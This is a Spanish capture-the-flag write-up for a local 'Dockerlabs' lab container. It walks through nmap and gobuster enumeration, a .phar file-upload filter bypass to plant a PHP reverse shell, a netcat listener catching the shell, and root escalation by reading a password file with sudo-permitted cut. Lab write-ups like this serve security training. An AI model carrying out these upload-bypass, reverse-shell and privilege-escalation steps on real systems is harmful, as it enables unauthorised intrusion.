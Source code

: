 # Dockerlabs
![dockerlabs](https://github.com/TBrux/DOCKERLABS/assets/168732212/2763751a-27cd-400b-af47-ce08eac22341)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos algo que nos pueda ser útil.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Explotación.

En la página principal no encontramos nada relevante, pero si vemos que hemos encontrado un página **machine.php** que es interesante.

![uploadfile](https://github.com/TBrux/DOCKERLABS/assets/168732212/ff1b1175-d44c-4f6b-a996-333b763e137c)

Intentamos subir un archivo **.php** pero está restingido a solo archivos **.zip**.
Si buscamos en [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload), encontramos diferentes extensiones para hacer un **bypass** y poder ejecutar código php.
```
    PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
En este caso, la extensión que nos va a funcionar es **.phar**, así que subiremos una reverse shell en un archivo php, en mi caso he utilizado este de [GITHUB](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de pentestmonkey.

![reverseshell](https://github.com/TBrux/DOCKERLABS/assets/168732212/479d4098-eee7-493f-813d-68433fa2ebde)

Una vez subido, cuando hemos hecho fuzzing hemos encontrado un directorio llamado **/uploads**, vamos a ese directorio desde el navegador y ahí tenemos nuestra revershell subida.

![uploads](https://github.com/TBrux/DOCKERLABS/assets/168732212/8b7728a5-9405-4a06-b8e4-cb63c4cdb44f)

Ahora nos ponemos en escucha en el puerto configurado en nuestro archivo php y lo ejecutamos.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38426
Linux fce2bf34762f 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 12:49:50 up  2:01,  0 user,  load average: 0.02, 0.28, 0.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Hacemos un tratamiento de la tty.
```bash
script /dev/null -c bash
```
CTRL + Z
```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios.
En la escalada de privilegios buscamos archivos que podamos utilizar con privilegios de root u otro usuario con más privilegios.
```
www-data@fce2bf34762f:/$ sudo -l
Matching Defaults entries for www-data on fce2bf34762f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fce2bf34762f:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
www-data@fce2bf34762f:/$
```
En este caso vamo a utilizar **/usr/bin/cut**, si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/cut/), podemos ver como utilizar este binario para leer un archivo txt que encontramos en el directorio **/opt**.
```
www-data@fce2bf34762f:/$ cd /opt
www-data@fce2bf34762f:/opt$ sudo /usr/bin/cut -d "" -f1 "/root/clave.txt"
dockerlabsmolamogollon123
www-data@fce2bf34762f:/opt$ 
```
Ahora como parece que tenemos la clave de **root**, probamos a cambiar al usuario **root** y lo tenemos.
```bash
su root
```
```
www-data@fce2bf34762f:/opt$ su root
Password: 
root@fce2bf34762f:/opt# whoami
root
root@fce2bf34762f:/opt#
```


